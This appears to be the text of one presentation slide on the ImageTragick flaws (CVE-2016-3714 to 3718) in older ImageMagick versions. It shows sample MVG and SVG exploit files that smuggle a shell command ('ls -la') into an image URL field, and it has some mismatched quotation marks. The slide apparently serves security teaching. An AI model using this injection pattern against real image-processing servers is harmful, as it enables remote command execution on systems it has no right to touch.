

ImageTragick

1. CVE-2016-3714 - 3718  Image magick contains file manipulation methods to read, write and delete files from the filesystem.  By default PRE: 6.9.3 these are set to open by default.

 Exploit.mvg:
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";|ls "-la)'
pop graphic-context

Exploit.svg:
<xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN”>
<svg width="640px" height="480px" version=“1.1" xmlns=“http://www.w3.org/2000/svg">
<image xlink:href=“https://example.com/image.jpg&quot;|ls &quot;-la"
x="0" y="0" height="640px" width=“480px"/> </svg>